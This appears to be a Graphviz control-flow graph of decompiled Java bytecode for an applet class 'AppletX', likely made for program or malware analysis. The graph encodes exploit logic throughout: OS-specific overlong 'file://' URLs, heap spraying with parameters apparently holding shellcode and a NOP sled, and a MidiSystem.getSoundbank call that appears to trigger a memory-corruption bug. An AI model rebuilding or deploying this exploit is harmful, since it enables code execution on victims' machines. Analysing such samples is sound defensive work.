 digraph "" {
    "r0 := @this: AppletX"
    "push 47"
    "r0 := @this: AppletX"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "store.r r2"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "push \"win\""
    "load.r r2"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r2"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r2";
    "iflt load.r r2"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"store.r r2";
    "goto new java.lang.StringBuilder"
    "store.r r2"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"file://\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"file://\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"file://\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Z%Z%Z%Z%Z%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Z%Z%Z%Z%Z%\"";
    "push \"Z%Z%Z%Z%Z%Z%\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"sc\""
    "load.r r0"->"push \"sc\"";
    "virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>"
    "push \"sc\""->"virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"np\""
    "load.r r0"->"push \"np\"";
    "push \"np\""->"virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <AppletX: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "virtualinvoke <AppletX: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <AppletX: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <AppletX: java.nio.IntBuffer[] mem>"
    "virtualinvoke <AppletX: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <AppletX: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <AppletX: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r2";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r2"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto return"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "iflt load.r r2"->"load.r r2";
    "push \"mac\""
    "load.r r2"->"push \"mac\"";
    "push \"mac\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r2";
    "iflt load.r r2"->"push 47";
    "push 1080"
    "push 47"->"push 1080";
    "push 1080"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"store.r r2";
    "store.r r2"->"goto new java.lang.StringBuilder";
    "iflt load.r r2"->"load.r r2";
    "push \"nix\""
    "load.r r2"->"push \"nix\"";
    "push \"nix\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge push 47"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge push 47";
    "ifge push 47"->"load.r r2";
    "push \"nux\""
    "load.r r2"->"push \"nux\"";
    "push \"nux\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 1337"
    "push 47"->"push 1337";
    "push 1337"->"staticinvoke <AppletX: java.lang.String repeat(char,int)>";
    "staticinvoke <AppletX: java.lang.String repeat(char,int)>"->"store.r r2";
    "store.r r2"->"goto new java.lang.StringBuilder";
    "iflt return"->"return";
}
